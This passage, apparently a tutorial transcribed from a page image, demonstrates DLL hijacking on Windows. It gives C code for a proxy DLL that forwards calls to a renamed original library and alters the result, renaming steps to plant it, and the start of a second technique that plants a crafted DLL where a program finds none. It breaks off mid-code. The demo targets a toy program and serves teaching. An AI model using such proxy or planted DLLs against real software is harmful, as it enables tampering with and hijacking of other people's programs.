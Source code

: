 ```


        // tamper.c
        #include <stdio.h>
        #include <Windows.h>

        #ifdef _WIN32
        #define DLL_EXPORT __declspec(dllexport)
        #else
        #define DLL_EXPORT
        #endif

        typedef int (*AddFunc)(int, int);

        DLL_EXPORT int Add(int a, int b)
        {
        // Load the original library containing the Add function
        HMODULE originalLibrary = LoadLibraryA("library.o.dll");
        if (originalLibrary != NULL)
        {
                // Get the address of the original Add function from the library
                AddFunc originalAdd = (AddFunc)GetProcAddress(originalLibrary, "Add");
                if (originalAdd != NULL)
                {
                printf("============ HIJACKED ============\n");
                // Call the original Add function with the provided arguments
                int result = originalAdd(a, b);
                // Tamper with the result by adding +1
                printf("= Adding 1 to the sum to be evil\n");
                result += 1;
                printf("============ RETURN ============\n");
                // Return the tampered result
                return result;
                }
        }
        // Return -1 if the original library or function cannot be loaded
        return -1;
        }



        Either compile it or use the precompiled version provided. Rename library.dll to library.o.dll, and rename tamper.dll to library.dll.

Running main.exe then shows the successful hack.



                -Invalid Libraries

        Another option to execute a DLL Hijack attack is to replace a valid library the program is attempting to load but cannot find with a crafted library. If we change the procmon filter to focus on entries whose path ends in .dll and has a status of NAME NOT FOUND we can find such libraries in main.exe.

        #include <stdio.h>
        #include <Windows.h>

        BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
        {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
```